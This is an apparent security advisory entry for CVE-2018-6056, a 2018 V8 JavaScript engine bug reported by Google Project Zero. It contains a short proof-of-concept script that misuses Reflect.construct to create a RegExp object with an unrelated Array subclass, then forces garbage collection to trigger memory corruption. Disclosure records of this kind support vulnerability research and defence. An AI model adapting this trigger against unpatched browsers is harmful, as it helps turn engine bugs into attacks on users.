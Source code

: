 # CVE-2018-6056

- Report: Jan 2018
- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x2000000);
}


class Derived extends Array {
    constructor(a) {
        const a = 1;
    }
}

// Derived is not a subclass of RegExp
let o = Reflect.construct(RegExp, [], Derived);
o.lastIndex = 0x1234;

gc();
```

## Reference

- [Issue](https://crbug.com/806388)
